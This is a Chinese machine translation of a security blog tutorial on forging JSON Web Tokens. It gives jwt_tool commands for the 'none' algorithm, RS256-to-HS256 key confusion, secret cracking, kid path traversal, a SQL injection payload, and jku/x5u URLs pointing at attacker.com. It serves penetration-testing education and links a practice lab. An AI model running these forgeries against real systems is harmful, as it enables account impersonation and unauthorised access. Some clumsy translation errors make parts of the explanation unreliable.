





# 攻击 JSON Web 令牌(jwt)

> 原文：<https://infosecwriteups.com/attacking-json-web-tokens-jwts-d1d51a1e17cb?source=collection_archive---------0----------------------->

伪造令牌获得未经授权的访问！


我做的:)

JSON Web Token 通常用于授权，其紧凑形式由三个元素组成:

1.  页眉
2.  有效载荷
3.  签名

## 页眉

这是一个 JSON 对象，它是令牌的元数据，主要用于定义其类型，算法名称用于签署**签名**，如“HS256”、“RS256”等。以及其他参数，如“kid”、“jku”、“x5u”等。

## 有效载荷

这也是一个 JSON 对象，用于存储用户信息，如 id、用户名、角色、令牌生成时间和其他自定义声明。

## 签名

这是最重要的部分，因为它通过对 Base64-URL 编码的标头和有效负载进行签名来决定令牌的完整性。)用秘钥。例如，要使用 HS256 算法生成令牌，伪代码如下所示:

```
// Use Base64-URL algorithm for encoding and concatenate with a dot**data = (base64urlEncode(header) + '.' + base64urlEncode(payload))**// Use HS256 algorithm with "SECRET_KEY" string as a secret**signature = HMACSHA256(data , SECRET_KEY)**// Complete token
**JWT = data + "." + base64UrlEncode(signature)**
```



以“SECRET_KEY”作为秘密的有效 HS256 签名令牌

## 但是什么是秘密钥匙呢？

一般来说，JWT 可以通过两种加密机制生成，即对称加密和非对称加密。

**对称:**

这种机制需要一个密钥来创建和验证 JWT。

例如，如果 Bob 用“h1dden_messag3”作为密钥生成了一个 JWT，那么任何知道该密钥(即 h1dden_messag3)的人都可以使用该密钥修改令牌，并且该令牌仍然有效。这样他们就可以冒充任何用户。这种类型最常见的算法是 HS256。

**不对称:**

该机制需要一个用于验证的**公钥**和一个用于签名的**私钥**。

例如，如果 Bob 使用了这种加密，那么他是唯一可以使用私钥创建新令牌的人，而 Alice 只能使用公钥验证令牌，但不能修改它。这种类型最常见的算法是 RS256。



用 RS256 算法签名的有效令牌

## 现在有趣的部分开始了！

如上所述，为了伪造令牌，必须有正确的密钥(例如，用于 HS256 的秘密密钥，用于 RS256 的公共和私人密钥)，但是如果 JWT 的配置没有正确实现，那么有许多方法可以绕过控制并修改令牌以获得未授权的访问。

# 基本攻击

> *为了执行所有这些攻击，我将使用*[*JWT _ 工具*](https://github.com/ticarpi/jwt_tool/) *，你可以使用这个* [*实验室*](https://github.com/h-a-c/jwt-lab) 来练习它们

## **1。无算法**

如果应用程序无法验证**【alg】**报头的值，那么我们可以将其值更改为**【无】**，这样就不需要有效的签名进行验证。例如:

```
// Modified Header of JWT after changing the "alg" parameter{
  "alg": "none",
  "typ": "JWT"
}
```

命令:

```
python3 jwt_tool.py <JWT> -X a
```



无算法攻击

这里，jwt_tool 创建了不同的有效负载来利用这个漏洞，并通过省略签名部分来绕过所有限制。

## 2.**将算法从 RS256 更改为 HS256**

如上所述，RS256 算法需要一个私钥来篡改数据，还需要一个相应的公钥来验证签名的真实性。但是，如果我们能够将签名算法从 RS256 更改为 HS256，我们将强制应用程序只使用一个密钥来完成这两项任务，这是 **HMAC** 算法的正常行为。

因此，通过这种方式，工作流将从非对称加密转换为对称加密，现在我们可以使用相同的公钥对新令牌进行签名。

命令:

```
python3 jwt_tool.py <JWT> -S hs256 -k public.pem
```

这里，我首先从应用程序下载了公钥(public.pem ),然后使用该密钥使用 HS256 算法对令牌进行签名。通过这种方式，我们可以生成新的令牌，并可以在任何现有的声明中注入有效负载。

## 3.**签名未被检查**

有时，当模糊头和有效负载部分中的数据时，如果应用程序没有返回错误，则意味着签名在授权服务器签名后没有被验证。这样，我们可以在声明中注入任何有效负载，令牌将始终有效。

命令:

```
python3 jwt_tool.py <JWT> -I -pc name -pv admin
```

这里没有检查签名部分，因此我可以修改有效负载部分中的“name”声明，变成“admin”

## 4.**破解密钥**

我们可以通过诸如 LFI、XXE、SSRF 等漏洞获得密钥文件。但是，如果这是不可能的，那么仍然可以进行其他攻击来检查令牌是否使用任何弱秘密字符串进行加密。

> 为此，一个名为 [*JWT 心碎者*](https://github.com/wallarm/jwt-heartbreaker) 的 BurpSuite 扩展可能会有用。

这种暴露会危及整个安全机制，因为现在我们可以用秘密密钥生成任意令牌。

但是要确保我们得到的字符串是不是真正的 SECRET_KEY 呢？我们可以使用 jwt_tool 的 Crack 特性。

命令:

```
**python3 jwt_tool.py <JWT> -C -d secrets.txt 
//** Use -p flag for a string
```



破解有效密钥并签署新令牌

## **5。使用任意文件验证**

密钥 ID (kid)是具有字符串类型的可选报头，用于指示文件系统或数据库中存在的特定密钥，然后使用其内容来验证签名。如果应用程序有多个用于对令牌进行签名的密钥，则此参数很有用，但是如果它是可注入的，则可能很危险，因为攻击者可以指向内容可预测的特定文件。

例如， **"/dev/null"** 被称为空设备文件，并且总是不返回任何内容，因此它可以在基于 Unix 的系统中完美地工作。

命令:

```
python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
```

或者，您可以使用 web 根目录中的任何文件，如 CSS 或 JS，并使用其内容来验证签名。

> *这个挑战的另一个解决方案:*

命令:

```
python3 jwt_tool.py -I -hc kid -hv "path/of/the/file" -S hs256 -p "Content of the file"
```

# 高级攻击

## **1。SQL 注入**

如果从数据库中检索某些值的任何参数未得到正确清理，就会发生此漏洞。最近，我用这个技巧解决了一个 CTF 挑战。

应用程序使用 RS256 算法，但是公钥在有效载荷部分的 **"pk"** 声明中是可见的，因此我能够将签名算法转换为 HS256，并被允许创建新的令牌。

枚举列数的命令:

```
**python3 jwt_tool.py <JWT> -I -pc name -pv "imparable' ORDER BY 1--" -S hs256 -k public.pem**// Increment the value by 1 until an error will occur
```

## 2.**伪造表头参数**

JSON Web 密钥集(JWKS)是一组用于令牌验证的公共密钥。这里有一个例子:



JWKS 中的公钥

该文件存储在可信服务器中，应用程序可以通过**“jku”**和**“x5u”**头参数指向该文件，但是如果我们能够通过 Open redirect、在主机名后添加@符号等技巧来操作 URL。

然后，我们可以将应用程序重定向到我们的恶意服务器，而不是可信服务器，这样我们就可以生成新的令牌，因为公钥和私钥都由我们控制。

*   **JSON 集合 URL (jku):**

该参数指向一组 JSON 编码格式的公钥(JWKS 中的属性 **n** 和 **e** ),在工具安装后第一次运行时,“jwt_tool”自动为该攻击生成名为*“jwt tool _ custom _ JWKS . JSON”*的 JWKS 文件。

命令:

```
python3 jwt_tool.py <JWT> -X s -ju "https://attacker.com/jwttool_custom_jwks.json"
```

*   **X.509 URL (x5u):**

该参数指向 X.509 公钥证书或证书链(JWKS 中的属性 **x5c** )，您可以使用相应的私钥生成该证书，如下所示:

```
openssl req -newkey rsa:2048 -nodes -keyout private.pem -x509 -days 365 -out attacker.crt -subj "/C=AU/L=Brisbane/O=CompanyName/CN=pentester"
```

这里使用 OpenSSL，在“attacker.crt”中创建证书，现在可以将它嵌入到带有“x5c”属性的 JWKS 文件中，并且可以像这样利用它:

命令:

```
python3 jwt_tool.py <JWT> -S rs256 -pr private.pem -I -hc x5u -hv "[https://attacker.com/custom_x5u.json](http://victim.com@ccbfd9f5afa7.ngrok.io/x5c.json)"
```

> ***注:*** 免费托管您的文件，您可以使用[***【REPL】。它***](https://repl.it) *😃*

*   **嵌入式公钥:**

如果服务器通过 **"jwk"** (JSON Web Key)或 **"x5c"** (X.509 证书链)参数将公钥直接嵌入令牌，那么尝试用您自己的公钥替换它们，并用相应的私钥对令牌进行签名。

## 3. [HTTP 响应头注入](https://portswigger.net/kb/issues/00200200_http-response-header-injection)

假设如果应用程序在“jku”或“x5c”参数中限制任何操作的 URL，那么我们可以使用响应头注入漏洞在 HTTP 响应中添加内联 jwk，并强制应用程序使用它进行签名验证。

为了演示这种攻击，我写了一个 Python 脚本，可以在这里找到[。](https://gist.github.com/imparabl3/efcf4a991244b9f8f99ac39a7c8cfe6f)

## 4.其他问题

JSON Web 令牌是另一种形式的用户输入，所有的参数都必须进行适当的清理，否则可能会导致 LFI、RCE 等漏洞。但是这并不意味着应用程序仍然是安全的。

因为如果一个攻击者不能伪造 jwt，那么他就会试图用 XSS，CSRF，CORS 的错误配置来窃取它们。更多信息可在[这里](https://github.com/ticarpi/jwt_tool/wiki/Stealing-JWTs)找到。

# 结束语

请只在法律允许的系统上测试这些攻击，否则你可能会坐牢😎

玩笑归玩笑，如果你觉得这篇文章有帮助，请给我你的反馈，你可以在 Twitter @nehatarick 上找到我

祝圣灵降临节快乐！